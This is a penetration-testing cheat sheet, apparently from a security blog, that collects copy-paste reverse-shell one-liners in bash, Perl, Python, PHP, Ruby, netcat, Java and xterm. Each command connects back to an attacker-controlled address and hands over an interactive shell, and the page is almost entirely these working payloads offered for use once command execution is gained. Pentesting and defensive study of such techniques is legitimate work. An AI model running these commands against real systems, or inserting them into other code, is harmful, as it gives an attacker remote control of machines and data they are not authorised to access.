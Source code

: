 <div class="entryContent">

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

<pre>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1</pre>

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

<pre>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'</pre>

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

<pre>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>

### PHP

This code assumes that the TCP connection uses file descriptor 3\.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

<pre>php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</pre>

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

<pre>ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'</pre>

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

<pre>nc -e /bin/sh 10.0.0.1 1234</pre>

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

<pre>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f</pre>

### Java

<pre>r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()</pre>

[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

<pre>xterm -display 10.0.0.1:1</pre>

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

<pre>Xnest :1</pre>

You’ll need to authorise the target to connect to you (command also run on your host):

<pre>xhost +targetip</pre>

### Further Reading

Also check out [Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html).  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a [reverse shell written in gawk over here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-122387).  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentesters might want to use for reverse shells.

<span class="tags">[bash](https://pentestmonkey.net/tag/bash), [cheatsheet](https://pentestmonkey.net/tag/cheatsheet), [netcat](https://pentestmonkey.net/tag/netcat), [pentest](https://pentestmonkey.net/tag/pentest), [perl](https://pentestmonkey.net/tag/perl), [php](https://pentestmonkey.net/tag/php), [python](https://pentestmonkey.net/tag/python), [reverseshell](https://pentestmonkey.net/tag/reverseshell), [ruby](https://pentestmonkey.net/tag/ruby), [xterm](https://pentestmonkey.net/tag/xterm)</span>

<span class="cats">[Shells](https://pentestmonkey.net/category/cheat-sheet/shells)</span>

<div class="navigation2">

<div class="alignleft next">[Post-Exploitation in Windows: From Local Admin To Domain Admin (efficiently)](https://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin)</div>

</div>

</div>
